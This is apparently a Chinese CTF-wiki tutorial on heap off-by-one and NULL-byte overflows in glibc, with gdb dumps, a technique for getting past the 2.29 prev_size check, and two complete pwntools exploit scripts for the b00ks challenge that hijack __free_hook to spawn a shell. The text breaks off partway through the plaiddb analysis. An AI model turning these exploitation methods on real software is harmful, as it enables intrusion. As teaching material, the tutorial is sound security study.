



# 堆中的 Off-By-One

## 介紹

嚴格來說 off-by-one 漏洞是一種特殊的溢出漏洞，off-by-one 指程序向緩衝區中寫入時，寫入的字節數超過了這個緩衝區本身所申請的字節數並且只越界了一個字節。

## off-by-one 漏洞原理

off-by-one 是指單字節緩衝區溢出，這種漏洞的產生往往與邊界驗證不嚴和字符串操作有關，當然也不排除寫入的 size 正好就只多了一個字節的情況。其中邊界驗證不嚴通常包括

- 使用循環語句向堆塊中寫入數據時，循環的次數設置錯誤（這在 C 語言初學者中很常見）導致多寫入了一個字節。
- 字符串操作不合適

一般來說，單字節溢出被認爲是難以利用的，但是因爲 Linux 的堆管理機制 ptmalloc 驗證的鬆散性，基於 Linux 堆的 off-by-one 漏洞利用起來並不複雜，並且威力強大。
此外，需要說明的一點是 off-by-one 是可以基於各種緩衝區的，比如棧、bss 段等等，但是堆上（heap based） 的 off-by-one 是 CTF 中比較常見的。我們這裏僅討論堆上的 off-by-one 情況。

## off-by-one 利用思路

1. 溢出字節爲可控制任意字節：通過修改大小造成塊結構之間出現重疊，從而泄露其他塊數據，或是覆蓋其他塊數據。也可使用 NULL 字節溢出的方法
2. 溢出字節爲 NULL 字節：在 size 爲 0x100 的時候，溢出 NULL 字節可以使得 `prev_in_use` 位被清，這樣前塊會被認爲是 free 塊。（1） 這時可以選擇使用 unlink 方法（見 unlink 部分）進行處理。（2） 另外，這時 `prev_size` 域就會啓用，就可以僞造 `prev_size` ，從而造成塊之間發生重疊。此方法的關鍵在於 unlink 的時候沒有檢查按照 `prev_size` 找到的塊的大小與`prev_size` 是否一致。

最新版本代碼中，已加入針對 2 中後一種方法的 check ，但是在 2.28 及之前版本並沒有該 check 。

```
/* consolidate backward */
    if (!prev_inuse(p)) {
      prevsize = prev_size (p);
      size += prevsize;
      p = chunk_at_offset(p, -((long) prevsize));
      /* 後兩行代碼在最新版本中加入，則 2 的第二種方法無法使用，但是 2.28 及之前都沒有問題 */
      if (__glibc_unlikely (chunksize(p) != prevsize))
        malloc_printerr ("corrupted size vs. prev_size while consolidating");
      unlink_chunk (av, p);
    }

```

### 示例 1

```
int my_gets(char *ptr,int size)
{
    int i;
    for(i=0;i<=size;i++)
    {
        ptr[i]=getchar();
    }
    return i;
}
int main()
{
    void *chunk1,*chunk2;
    chunk1=malloc(16);
    chunk2=malloc(16);
    puts("Get Input:");
    my_gets(chunk1,16);
    return 0;
}
```

我們自己編寫的 my_gets 函數導致了一個 off-by-one 漏洞，原因是 for 循環的邊界沒有控制好導致寫入多執行了一次，這也被稱爲柵欄錯誤

> wikipedia:
> 柵欄錯誤（有時也稱爲電線杆錯誤或者燈柱錯誤）是差一錯誤的一種。如以下問題：
>
>     建造一條直柵欄（即不圍圈），長 30 米、每條柵欄柱間相隔 3 米，需要多少條柵欄柱？
>
> 最容易想到的答案 10 是錯的。這個柵欄有 10 個間隔，11 條柵欄柱。

我們使用 gdb 對程序進行調試，在進行輸入前可以看到分配的兩個用戶區域爲 16 字節的堆塊
```
0x602000:	0x0000000000000000	0x0000000000000021 <=== chunk1
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000021 <=== chunk2
0x602030:	0x0000000000000000	0x0000000000000000
```
當我們執行 my_gets 進行輸入之後，可以看到數據發生了溢出覆蓋到了下一個堆塊的 prev_size 域
print 'A'*17
```
0x602000:	0x0000000000000000	0x0000000000000021 <=== chunk1
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x0000000000000041	0x0000000000000021 <=== chunk2
0x602030:	0x0000000000000000	0x0000000000000000
```

### 示例 2

第二種常見的導致 off-by-one 的場景就是字符串操作了，常見的原因是字符串的結束符計算有誤

```
int main(void)
{
    char buffer[40]="";
    void *chunk1;
    chunk1=malloc(24);
    puts("Get Input");
    gets(buffer);
    if(strlen(buffer)==24)
    {
        strcpy(chunk1,buffer);
    }
    return 0;

}
```

程序乍看上去沒有任何問題（不考慮棧溢出），可能很多人在實際的代碼中也是這樣寫的。
但是 strlen 和 strcpy 的行爲不一致卻導致了 off-by-one 的發生。
strlen 是我們很熟悉的計算 ascii 字符串長度的函數，這個函數在計算字符串長度時是不把結束符 `'\x00'` 計算在內的，但是 strcpy 在複製字符串時會拷貝結束符 `'\x00'` 。這就導致了我們向 chunk1 中寫入了 25 個字節，我們使用 gdb 進行調試可以看到這一點。

```
0x602000:	0x0000000000000000	0x0000000000000021 <=== chunk1
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000411 <=== next chunk
```

在我們輸入'A'*24 後執行 strcpy

```
0x602000:	0x0000000000000000	0x0000000000000021
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0x0000000000000400
```

可以看到 next chunk 的 size 域低字節被結束符 `'\x00'` 覆蓋，這種又屬於 off-by-one 的一個分支稱爲 NULL byte off-by-one，我們在後面會看到 off-by-one 與 NULL byte off-by-one 在利用上的區別。
還是有一點就是爲什麼是低字節被覆蓋呢，因爲我們通常使用的 CPU 的字節序都是小端法的，比如一個 DWORD 值在使用小端法的內存中是這樣儲存的

```
DWORD 0x41424344
內存  0x44,0x43,0x42,0x41
```

### 在 libc-2.29 之後
由於這兩行代碼的加入
```cpp
      if (__glibc_unlikely (chunksize(p) != prevsize))
        malloc_printerr ("corrupted size vs. prev_size while consolidating");
```
由於我們難以控制一個真實 chunk 的 size 字段，所以傳統的 off-by-null 方法失效。但是，只需要滿足被 unlink 的 chunk 和下一個 chunk 相連，所以仍然可以僞造 fake_chunk。

僞造的方式就是使用 large bin 遺留的 fd_nextsize 和 bk_nextsize 指針。以 fd_nextsize 爲 fake_chunk 的 fd，bk_nextsize 爲 fake_chunk 的 bk，這樣我們可以完全控制該 fake_chunk 的 size 字段（這個過程會破壞原 large bin chunk 的 fd 指針，但是沒有關係），同時還可以控制其 fd（通過部分覆寫 fd_nextsize）。通過在後面使用其他的 chunk 輔助僞造，可以通過該檢測

```
  if (__glibc_unlikely (chunksize(p) != prevsize))
    malloc_printerr ("corrupted size vs. prev_size while consolidating");
```

然後只需要通過 unlink 的檢測就可以了，也就是 `fd->bk == p && bk->fd == p`

如果 large bin 中僅有一個 chunk，那麼該 chunk 的兩個 nextsize 指針都會指向自己，如下




我們可以控制 fd_nextsize 指向堆上的任意地址，可以容易地使之指向一個 fastbin + 0x10 - 0x18，而 fastbin 中的 fd 也會指向堆上的一個地址，通過部分覆寫該指針也可以使該指針指向之前的 large bin + 0x10，這樣就可以通過 `fd->bk == p` 的檢測。

由於 bk_nextsize 我們無法修改，所以 bk->fd 必然在原先的 large bin chunk 的 fd 指針處（這個 fd 被我們破壞了）。通過 fastbin 的鏈表特性可以做到修改這個指針且不影響其他的數據，再部分覆寫之就可以通過 `bk->fd==p` 的檢測了。

然後通過 off-by-one 向低地址合併就可以實現 chunk overlapping 了，之後可以 leak libc_base 和 堆地址，tcache 打 __free_hook 即可。

光講原理比較難理解，建議結合題目學習，比如本文中的實例 3。

## 實例 1: Asis CTF 2016 [b00ks](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/off_by_one/Asis_2016_b00ks)


### 題目介紹


題目是一個常見的選單式程序，功能是一個圖書管理系統。

```
1. Create a book
2. Delete a book
3. Edit a book
4. Print book detail
5. Change current author name
6. Exit
```

程序提供了創建、刪除、編輯、打印圖書的功能。題目是 64 位程序，保護如下所示。

```
Canary                        : No
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Full
```

程序每創建一個 book 會分配 0x20 字節的結構來維護它的信息

```
struct book
{
    int id;
    char *name;
    char *description;
    int size;
}
```

### create

book 結構中存在 name 和 description ， name 和 description 在堆上分配。首先分配 name buffer ，使用 malloc ，大小自定但小於 32 。

```
printf("\nEnter book name size: ", *(_QWORD *)&size);
__isoc99_scanf("%d", &size);
printf("Enter book name (Max 32 chars): ", &size);
ptr = malloc(size);
```

之後分配 description ，同樣大小自定但無限制。

```
printf("\nEnter book description size: ", *(_QWORD *)&size);
        __isoc99_scanf("%d", &size);

v5 = malloc(size);
```

之後分配 book 結構的內存

```
book = malloc(0x20uLL);
if ( book )
{
    *((_DWORD *)book + 6) = size;
    *((_QWORD *)off_202010 + v2) = book;
    *((_QWORD *)book + 2) = description;
    *((_QWORD *)book + 1) = name;
    *(_DWORD *)book = ++unk_202024;
    return 0LL;
}
```

### 漏洞

程序編寫的 read 函數存在 null byte off-by-one 漏洞，仔細觀察這個 read 函數可以發現對於邊界的考慮是不當的。

```
signed __int64 __fastcall my_read(_BYTE *ptr, int number)
{
  int i; // [rsp+14h] [rbp-Ch]
  _BYTE *buf; // [rsp+18h] [rbp-8h]

  if ( number <= 0 )
    return 0LL;
  buf = ptr;
  for ( i = 0; ; ++i )
  {
    if ( (unsigned int)read(0, buf, 1uLL) != 1 )
      return 1LL;
    if ( *buf == '\n' )
      break;
    ++buf;
    if ( i == number )
      break;
  }
  *buf = 0;
  return 0LL;
}
```

### 利用

#### 泄漏


因爲程序中的 my_read 函數存在 null byte off-by-one ，事實上 my_read 讀入的結束符 '\x00' 是寫入到 0x555555756060 的位置的。這樣當 0x555555756060～0x555555756068 寫入 book 指針時就會覆蓋掉結束符 '\x00' ，所以這裏是存在一個地址泄漏的漏洞。通過打印 author name 就可以獲得 pointer array 中第一項的值。

```
0x555555756040:	0x6161616161616161	0x6161616161616161
0x555555756050:	0x6161616161616161	0x6161616161616161   <== author name
0x555555756060:	0x0000555555757480 <== pointer array	0x0000000000000000
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000000000000000	0x0000000000000000
```

爲了實現泄漏，首先在 author name 中需要輸入 32 個字節來使得結束符被覆蓋掉。之後我們創建 book1 ，這個 book1 的指針會覆蓋 author name 中最後的 NULL 字節，使得該指針與 author name 直接連接，這樣輸出 author name 則可以獲取到一個堆指針。

```
io.recvuntil('Enter author name:') # input author name
io.sendline('a' * 32)

io.recvuntil('>') # create book1
io.sendline('1')
io.recvuntil('Enter book name size:')
io.sendline('32')
io.recvuntil('Enter book name (Max 32 chars):')
io.sendline('object1')
io.recvuntil('Enter book description size:')
io.sendline('32')
io.recvuntil('Enter book description:')
io.sendline('object1')

io.recvuntil('>') # print book1
io.sendline('4')
io.recvuntil('Author:')
io.recvuntil('aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa') # <== leak book1
book1_addr = io.recv(6)
book1_addr = book1_addr.ljust(8,'\x00')
book1_addr = u64(book1_addr)
```


#### off-by-one 覆蓋指針低字節

程序中同樣提供了一種 change 功能， change 功能用於修改 author name ，所以通過 change 可以寫入 author name ，利用 off-by-one 覆蓋 pointer array 第一個項的低字節。


覆蓋掉 book1 指針的低字節後，這個指針會指向 book1 的 description ，由於程序提供了 edit 功能可以任意修改 description 中的內容。我們可以提前在 description 中佈置數據僞造成一個 book 結構，這個 book 結構的 description 和 name 指針可以由直接控制。

```
def off_by_one(addr):
    addr += 58
    io.recvuntil('>')# create fake book in description
    io.sendline('3')
    fake_book_data = p64(0x1) + p64(addr) + p64(addr) + pack(0xffff)
    io.recvuntil('Enter new book description:')
    io.sendline(fake_book_data) # <== fake book


    io.recvuntil('>') # change author name
    io.sendline('5')
    io.recvuntil('Enter author name:')
    io.sendline('a' * 32) # <== off-by-one
```

這裏在 description 中僞造了 book ，使用的數據是 p64(0x1)+p64(addr)+p64(addr)+pack(0xffff) 。
其中 addr+58 是爲了使指針指向 book2 的指針地址，使得我們可以任意修改這些指針值。


#### 通過棧實現利用

通過前面 2 部分我們已經獲得了任意地址讀寫的能力，讀者讀到這裏可能會覺得下面的操作是顯而易見的，比如寫 got 表劫持流程或者寫 __malloc_hook 劫持流程等。但是這個題目特殊之處在於開啓 PIE 並且沒有泄漏 libc 基地址的方法，因此我們還需要想一下其他的辦法。

這道題的巧妙之處在於在分配第二個 book 時，使用一個很大的尺寸，使得堆以 mmap 模式進行拓展。我們知道堆有兩種拓展方式一種是 brk 會直接拓展原來的堆，另一種是 mmap 會單獨映射一塊內存。

在這裏我們申請一個超大的塊，來使用 mmap 擴展內存。因爲 mmap 分配的內存與 libc 之前存在固定的偏移因此可以推算出 libc 的基地址。
```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/ 桌面 /123/123
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/ 桌面 /123/123
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/ 桌面 /123/123
0x00007f8d638a3000 0x00007f8d63a63000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63a63000 0x00007f8d63c63000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63c63000 0x00007f8d63c67000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63c67000 0x00007f8d63c69000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63c69000 0x00007f8d63c6d000 0x0000000000000000 rw-
0x00007f8d63c6d000 0x00007f8d63c93000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f8d63e54000 0x00007f8d63e79000 0x0000000000000000 rw- <=== mmap
0x00007f8d63e92000 0x00007f8d63e93000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f8d63e93000 0x00007f8d63e94000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f8d63e94000 0x00007f8d63e95000 0x0000000000000000 rw-
0x00007ffdc4f12000 0x00007ffdc4f33000 0x0000000000000000 rw- [stack]
0x00007ffdc4f7a000 0x00007ffdc4f7d000 0x0000000000000000 r-- [vvar]
0x00007ffdc4f7d000 0x00007ffdc4f7f000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/ 桌面 /123/123
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/ 桌面 /123/123
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/ 桌面 /123/123
0x00007f6572703000 0x00007f65728c3000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f65728c3000 0x00007f6572ac3000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6572ac3000 0x00007f6572ac7000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6572ac7000 0x00007f6572ac9000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6572ac9000 0x00007f6572acd000 0x0000000000000000 rw-
0x00007f6572acd000 0x00007f6572af3000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6572cb4000 0x00007f6572cd9000 0x0000000000000000 rw- <=== mmap
0x00007f6572cf2000 0x00007f6572cf3000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6572cf3000 0x00007f6572cf4000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6572cf4000 0x00007f6572cf5000 0x0000000000000000 rw-
0x00007fffec566000 0x00007fffec587000 0x0000000000000000 rw- [stack]
0x00007fffec59c000 0x00007fffec59f000 0x0000000000000000 r-- [vvar]
0x00007fffec59f000 0x00007fffec5a1000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

#### exploit

```python
from pwn import *
context.log_level="info"

binary = ELF("b00ks")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
io = process("./b00ks")


def createbook(name_size, name, des_size, des):
	io.readuntil("> ")
	io.sendline("1")
	io.readuntil(": ")
	io.sendline(str(name_size))
	io.readuntil(": ")
	io.sendline(name)
	io.readuntil(": ")
	io.sendline(str(des_size))
	io.readuntil(": ")
	io.sendline(des)

def printbook(id):
	io.readuntil("> ")
	io.sendline("4")
	io.readuntil(": ")
	for i in range(id):
		book_id = int(io.readline()[:-1])
		io.readuntil(": ")
		book_name = io.readline()[:-1]
		io.readuntil(": ")
		book_des = io.readline()[:-1]
		io.readuntil(": ")
		book_author = io.readline()[:-1]
	return book_id, book_name, book_des, book_author

def createname(name):
	io.readuntil("name: ")
	io.sendline(name)

def changename(name):
	io.readuntil("> ")
	io.sendline("5")
	io.readuntil(": ")
	io.sendline(name)

def editbook(book_id, new_des):
	io.readuntil("> ")
	io.sendline("3")
	io.readuntil(": ")
	io.writeline(str(book_id))
	io.readuntil(": ")
	io.sendline(new_des)

def deletebook(book_id):
	io.readuntil("> ")
	io.sendline("2")
	io.readuntil(": ")
	io.sendline(str(book_id))

createname("A" * 32)
createbook(128, "a", 32, "a")
createbook(0x21000, "a", 0x21000, "b")


book_id_1, book_name, book_des, book_author = printbook(1)
book1_addr = u64(book_author[32:32+6].ljust(8,'\x00'))
log.success("book1_address:" + hex(book1_addr))

payload = p64(1) + p64(book1_addr + 0x38) + p64(book1_addr + 0x40) + p64(0xffff)
editbook(book_id_1, payload)
changename("A" * 32)

book_id_1, book_name, book_des, book_author = printbook(1)
book2_name_addr = u64(book_name.ljust(8,"\x00"))
book2_des_addr = u64(book_des.ljust(8,"\x00"))
log.success("book2 name addr:" + hex(book2_name_addr))
log.success("book2 des addr:" + hex(book2_des_addr))
libc_base = book2_des_addr - 0x5b9010
log.success("libc base:" + hex(libc_base))

free_hook = libc_base + libc.symbols["__free_hook"]
one_gadget = libc_base + 0x4f322 # 0x4f2c5 0x10a38c 0x4f322
log.success("free_hook:" + hex(free_hook))
log.success("one_gadget:" + hex(one_gadget))
editbook(1, p64(free_hook) * 2)
editbook(2, p64(one_gadget))

deletebook(2)

io.interactive()
```

#### 簡潔方案

在任意讀寫之後，另一種找到 libc 的方案其實是可以在進行任意讀寫之前首先造成 libc 地址被寫在堆上，之後任意讀將其讀出來即可。

其中爲找到 libc 所在的偏移，可以直接通過 gdb 調試，查看具體 libc 地址在堆上的位置即可，不用進行刻意計算。

exp 如下：

```
#! /usr/bin/env python2
# -*- coding: utf-8 -*-
# vim:fenc=utf-8

import sys
import os
import os.path
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

if len(sys.argv) > 2:
    DEBUG = 0
    HOST = sys.argv[1]
    PORT = int(sys.argv[2])

    p = remote(HOST, PORT)
else:
    DEBUG = 1
    if len(sys.argv) == 2:
        PATH = sys.argv[1]

    p = process(PATH)

def cmd(choice):
    p.recvuntil('> ')
    p.sendline(str(choice))


def create(book_size, book_name, desc_size, desc):
    cmd(1)
    p.recvuntil(': ')
    p.sendline(str(book_size))
    p.recvuntil(': ')
    if len(book_name) == book_size:
        p.send(book_name)
    else:
        p.sendline(book_name)
    p.recvuntil(': ')
    p.sendline(str(desc_size))
    p.recvuntil(': ')
    if len(desc) == desc_size:
        p.send(desc)
    else:
        p.sendline(desc)


def remove(idx):
    cmd(2)
    p.recvuntil(': ')
    p.sendline(str(idx))


def edit(idx, desc):
    cmd(3)
    p.recvuntil(': ')
    p.sendline(str(idx))
    p.recvuntil(': ')
    p.send(desc)


def author_name(author):
    cmd(5)
    p.recvuntil(': ')
    p.send(author)


libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def main():
    # Your exploit script goes here

    # leak heap address
    p.recvuntil('name: ')
    p.sendline('x' * (0x20 - 5) + 'leak:')

    create(0x20, 'tmp a', 0x20, 'b') # 1
    cmd(4)
    p.recvuntil('Author: ')
    p.recvuntil('leak:')
    heap_leak = u64(p.recvline().strip().ljust(8, '\x00'))
    p.info('heap leak @ 0x%x' % heap_leak)
    heap_base = heap_leak - 0x1080

    create(0x20, 'buf 1', 0x20, 'desc buf') # 2
    create(0x20, 'buf 2', 0x20, 'desc buf 2') # 3
    remove(2)
    remove(3)

    ptr = heap_base + 0x1180
    payload = p64(0) + p64(0x101) + p64(ptr - 0x18) + p64(ptr - 0x10) + '\x00' * 0xe0 + p64(0x100)
    create(0x20, 'name', 0x108, 'overflow') # 4
    create(0x20, 'name', 0x100 - 0x10, 'target') # 5
    create(0x20, '/bin/sh\x00', 0x200, 'to arbitrary read write') # 6

    edit(4, payload) # overflow
    remove(5) # unlink

    edit(4, p64(0x30) + p64(4) + p64(heap_base + 0x11a0) + p64(heap_base + 0x10c0) + '\n')

    def write_to(addr, content, size):
        edit(4, p64(addr) + p64(size + 0x100) + '\n')
        edit(6, content + '\n')

    def read_at(addr):
        edit(4, p64(addr) + '\n')
        cmd(4)
        p.recvuntil('Description: ')
        p.recvuntil('Description: ')
        p.recvuntil('Description: ')
        content = p.recvline()[:-1]
        p.info(content)
        return content

    libc_leak = u64(read_at(heap_base + 0x11e0).ljust(8, '\x00')) - 0x3c4b78
    p.info('libc leak @ 0x%x' % libc_leak)

    write_to(libc_leak + libc.symbols['__free_hook'], p64(libc_leak + libc.symbols['system']), 0x10)
    remove(6)

    p.interactive()

if __name__ == '__main__':
    main()
```

## 實例 2 : plaidctf 2015 plaiddb

```shell
➜  2015_plaidctf_datastore git:(master) file datastore
datastore: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=1a031710225e93b0b5985477c73653846c352add, stripped
➜  2015_plaidctf_datastore git:(master) checksec datastore
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/off_by_one/2015_plaidctf_datastore/datastore'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
➜  2015_plaidctf_datastore git:(master)
```

可以看出，該程序是 64 位動態鏈接的。保護全部開啓。

### 功能分析

關鍵數據結構：

```
struct Node {
    char *key;
    long data_size;
    char *data;
    struct Node *left;
    struct Node *right;
    long dummy;
    long dummy1;
}
```

主要使用了二叉樹的結構來存儲數據，具體存儲過程其實並不影響利用。

功能函數需要注意的是 `getline` (自己實現的單行讀取函數):

```
char *__fastcall getline(__int64 a1, __int64 a2)
{
  char *v2; // r12
  char *v3; // rbx
  size_t v4; // r14
  char v5; // al
  char v6; // bp
  signed __int64 v7; // r13
  char *v8; // rax

  v2 = (char *)malloc(8uLL); // 一開始使用 malloc(8) 進行分配
  v3 = v2;
  v4 = malloc_usable_size(v2); // 計算了可用大小，例如對於 malloc(8) 來說，這裏應該爲24
  while ( 1 )
  {
    v5 = _IO_getc(stdin);
    v6 = v5;
    if ( v5 == -1 )
      bye();
    if ( v5 == 10 )
      break;
    v7 = v3 - v2;
    if ( v4 <= v3 - v2 )
    {
      v8 = (char *)realloc(v2, 2 * v4); // 大小不夠是將可用大小乘二，進行 realloc
      v2 = v8;
      if ( !v8 )
      {
        puts("FATAL: Out of memory");
        exit(-1);
      }
      v3 = &v8[v7];
      v4 = malloc_usable_size(v8);
    }
    *v3++ = v6; // <--- 漏洞所在，此時 v3 作爲索引，指向了下一個位置，如果位置全部使用完畢則會指向下一個本應該不可寫位置 
  }
  *v3 = 0; // <--- 漏洞所在。 off by one （NULL 字節溢出）
  return v2;
}
```

幾個主要功能：

```
unsigned __int64 main_fn()
{
  char v1[8]; // [rsp+0h] [rbp-18h]
  unsigned __int64 v2; // [rsp+8h] [rbp-10h]

  v2 = __readfsqword(0x28u);
  puts("PROMPT: Enter command:");
  gets_checked(v1, 8LL);
  if ( !strcmp(v1, "GET\n") )
  {
    cmd_get();
  }
  else if ( !strcmp(v1, "PUT\n") )
  {
    cmd_put();
  }
  else if ( !strcmp(v1, "DUMP\n") )
  {
    cmd_dump();
  }
  else if ( !strcmp(v1, "DEL\n") )
  {
    cmd_del();
  }
  else
  {
    if ( !strcmp(v1, "EXIT\n") )
      bye();
    __printf_chk(1LL, "ERROR: '%s' is not a valid command.\n", v1);
  }
  return __readfsqword(0x28u) ^ v2;
}
```

`dump` 和 `get` 都是用來讀取內容，這樣 `key` 和具體數據內容都可以讀取，不太需要重點關注。重點關注 `put` 和 `del`：

```
__int64 __fastcall cmd_put()
{
  __int64 v0; // rsi
  Node *row; // rbx
  unsigned __int64 sz; // rax
  char *v3; // rax
  __int64 v4; // rbp
  __int64 result; // rax
  __int64 v6; // [rsp+0h] [rbp-38h]
  unsigned __int64 v7; // [rsp+18h] [rbp-20h]

  v7 = __readfsqword(0x28u);
  row = (Node *)malloc(0x38uLL);
  if ( !row )
  {
    puts("FATAL: Can't allocate a row");
    exit(-1);
  }
  puts("PROMPT: Enter row key:");
  row->key = getline((__int64)"PROMPT: Enter row key:", v0);
  puts("PROMPT: Enter data size:");
  gets_checked((char *)&v6, 16LL);
  sz = strtoul((const char *)&v6, 0LL, 0);
  row->data_size = sz;
  v3 = (char *)malloc(sz);
  row->data = v3;
  if ( v3 )
  {
    puts("PROMPT: Enter data:");
    fread_checked(row->data, row->data_size);
    v4 = insert_node(row);
    if ( v4 )
    {
      free(row->key);
      free(*(void **)(v4 + 16));
      *(_QWORD *)(v4 + 8) = row->data_size;
      *(_QWORD *)(v4 + 16) = row->data;
      free(row);
      puts("INFO: Update successful.");
    }
    else
    {
      puts("INFO: Insert successful.");
    }
    result = __readfsqword(0x28u) ^ v7;
  }
  else
  {
    puts("ERROR: Can't store that much data.");
    free(row->key);
    free(row);
  }
  return result;
}
```

分配過程有：

1. malloc(0x38) (結構體)
2. getline (malloc 和 realloc)
3. malloc(size) 可控大小
4. 讀入 size 字節內容

更復雜的部分我們可以之後在看是否會用到，也就是在 put 中用到的關於 `free` 的部分

對於刪除來說，這個函數比較複雜，就不再詳細解釋。事實上只需要知道他是按照 key 來進行刪除，key 則使用 `getline` 進行讀取，如果沒有該 key，則 `getline` 的部分不會被刪除，有的話，就依次 `free`

### 漏洞利用分析

漏洞的位置在功能分析中已經指出來了，在 `getline` 當中，但是這個函數比較特殊的地方在於，它所分配的大小是逐漸增大的，通過可用大小乘二的方式增大，使用了 `realloc`，也就是說，我們想要觸發這個漏洞，就需要滿足特定大小的要求。

根據分配過程，滿足的大小有：

* 0x18
* 0x38
* 0x78
* 0xf8
* 0x1f8
* ...

這些大小都可以觸發溢出。

現在我們就需要知道我們需要採用的具體利用方法了。首先 `off-by-one` 漏洞可以造成堆交叉，可以造成 libc 地址泄露，之後所要採用的利用方法，由於已經存在堆交叉，也就是可以形成 UAF ，可以使用 UAF 的常用方法。

UAF 漏洞最簡單的方法當然是 fastbin attack 了，所以我採用了 fastbin attack。

到這裏，我們就可以開始思考如何形成我們所需要的利用條件。`off-by-one`最終的效果是可以將一個釋放狀態的 smallbin chunk 或是 unsortedbin chunk 一直到被溢出 chunk 合併成一個大 chunk。也就是說：

```
+------------+
|            |  <-- free 的 unsortedbin 或是 smallbin chunk （因爲此時 fd 和 bk 指向合法指針，纔能夠進行 unlink）
+------------+
|     ...    |  <-- 任意 chunk
+------------+
|            |  <-- 進行溢出的 chunk
+------------+
|    vuln    |  <-- 被溢出的 chunk，大小爲 0x_00 （例如 0x100, 0x200……）
+------------+
```

在 `off-by-one` 利用後，以上出現的 chunk 都將被合併爲一個釋放狀態的 chunk。這樣中間任意 chunk 的位置如果是已被分配的，就可以造成 overlap 了。

按照我們的利用思路，結合題目 `getline` 函數通過 `malloc(8)` 再 `realloc` 的分配方式，我們需要：

1. 任意 chunk 位置至少有一個已經被分配，且可以讀出數據的 chunk 來泄露 libc 地址
2. 進行溢出的 chunk 需要在最上方的 chunk 之前被分配，否則 `malloc(8)` 的時候會分配到最上方而不是進行溢出 chunk 應在的位置
3. 任意 chunk 位置至少還需要有一個已經被釋放，且 size 爲 0x71 的 chunk 來進行 fastbin attack
4. 所有 chunk 不應該被合併進 top，所以最下方應該有一個已經分配的 chunk 保證與 top chunk 的距離
5. 進行溢出的 chunk 大小應該屬於 unsortedbin 或是 smallbin，不能爲 fastbin，否則被釋放之後，按照 `getline` 的分配方式，`malloc(8)` 無法分配在該位置

按照以上原則，我們可以思考出 chunk 的分佈如下：

```
+------------+
|      1     |  <-- free 的 size == 0x200 chunk
+------------+
|      2     |  <-- size == 0x60 fastbin chunk，已被分配，且可以讀出數據
+------------+
|      5     |  <-- size == 0x71 fastbin chunk，爲 fastbin attack 做準備
+------------+
|      3     |  <-- size == 0x1f8 free 狀態的 smallbin/unsortedbin chunk
+------------+
|      4     |  <-- size == 0x101 被溢出 chunk
+------------+
